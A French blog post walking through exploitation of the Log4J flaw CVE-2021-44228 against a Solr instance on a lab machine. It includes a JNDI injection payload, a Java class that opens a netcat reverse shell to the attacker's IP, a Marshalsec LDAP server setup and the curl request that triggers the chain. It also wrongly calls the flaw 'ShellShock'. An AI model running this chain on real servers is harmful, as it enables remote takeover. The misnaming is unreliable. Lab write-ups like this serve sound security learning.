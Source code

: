 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel de la cybersécurité pour avoir entendu parler de cette faille.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4j.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine d'exploit.

# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la création de logs. Pour cette attaque je me base sur l'application Solr, puisque cette dernière utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que Log4J est présent dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça il faut d'abord trouver un point d'injection. Le plus simple est donc de jeter un oeil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées, l'url mais également **les paramètres**.

Pour identifier la vulnérabilité du système, il suffit d'injecter un paramètres GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`{jndi:ldap://<IP>:<PORT>}`

Voilà donc l'injection, avec un listener de l'autre côté pour vérifier la bonne execution par le système de logs :

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)

Une connexion s'effectue bien entre notre machine et le serveur, ce dernier est donc vulnérable à l'attaque.

# Exploitation

Nous avons vu dans la partie précédente que l'application était vulnérable, cependant pour le moment, aucune execution de code sur le serveur n'est possible. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de jdni va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux et donc utilisé pour rediriger vers du code malveillant en notre possession.

## Charge utile

Afin de créer un accès au serveur, on cherche simplement à créer un shell, pour ça la classe Java suivante est suffisante : 


```Java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.65.176 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

On la compile sous le nom de `Exploit.class`

## Mise en place d'un serveur LDAP malveillant

Pour cela on utilise le software Marshalsec (https://github.com/mbechler/marshalsec) qui va permettre de créer le serveur et de rediriger le traffic.

![image](https://user-images.githubusercontent.com/16634117/145871850-2f83e1d5-6e94-40ec-803b-c71be8fca4d6.png)

## Attaque

Une fois les éléments en place, il faut crér un serveur capacle de répondre avec notre charge malveillante, un simple `python3 -m http.server` fera l'affaire.

Pour pouvoir récupérer le shell :

`nc -lnvp 9999`

Tous les éléments sont en place. 

Une simple requête avec l'injection va permettre de déclencher toute la chaine d'attaque : 

`curl 'http://10.10.31.65:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.65.176:1389/Exploit\}'`

Une fois cela fait :

![image](https://user-images.githubusercontent.com/16634117/145872643-ec39c7ca-e33d-4b34-8c31-a6b2ed397b09.png)
_De haut en bas et de gauche à droite : la reqûete malveillante, le serveur LDAP redirigeant le traffic, le serveur Python répondant avec la payload RCE comilée, le reverse shell_



